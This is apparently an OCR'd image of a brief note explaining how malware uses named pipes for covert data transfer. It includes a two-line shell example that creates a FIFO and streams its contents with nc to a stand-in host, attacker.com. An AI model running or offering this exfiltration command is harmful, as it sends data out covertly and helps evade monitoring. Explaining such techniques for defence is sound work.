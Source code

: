 # Named Pipes for Covert Data Transfer

Malware often abuses named pipes (mkfifo) to stealthily transmit data between processes.

How It Works
Pipes allow inter-process communication, often between malware components.

Attackers use FIFO pipes to bypass traditional network monitoring.

Example: Stealth Data Exfiltration
```sh
mkfifo /tmp/hidden_pipe
nc attacker.com 4444 < /tmp/hidden_pipe
```
Impact: Data is streamed through a named pipe, bypassing detection mechanisms.
